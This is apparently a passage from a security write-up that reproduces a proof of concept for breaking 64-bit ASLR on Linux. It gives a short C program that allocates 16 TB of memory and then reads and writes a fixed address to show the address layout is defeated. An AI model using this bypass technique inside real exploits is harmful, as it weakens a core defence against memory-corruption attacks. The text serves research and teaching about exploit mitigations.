 ### PoC of ASLR bypass on Linux

Let's try to reproduce saelo's PoC to completely break aslr on Linux.

<p align="center"> <img src="../../assets/files/breaking-64-bit-aslr-on-linux/images/ios-break-aslr.png" > <i> saelo's poc</i> </p> <br/>

On Linux it's not so easy, it is possible to completely break ASLR only if you are able to allocate 16TB of memory.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    // 64gb
    size_t size = 0x1000000000;

    // 16TB allocations
    for (int i = 0; i < 256; i++) {
        void *mem = malloc(size); // this ends up calling mmap
        if (!mem) {
            puts("Failed");
            return 1;
        }
        printf("%p\n", mem);
    }

    unsigned int *mem = (void*)0x7f0000000000ULL;
    *mem = 0x41414141;
    printf("R/W to %p: %x\n", mem, *mem);

    return 0;
}
```
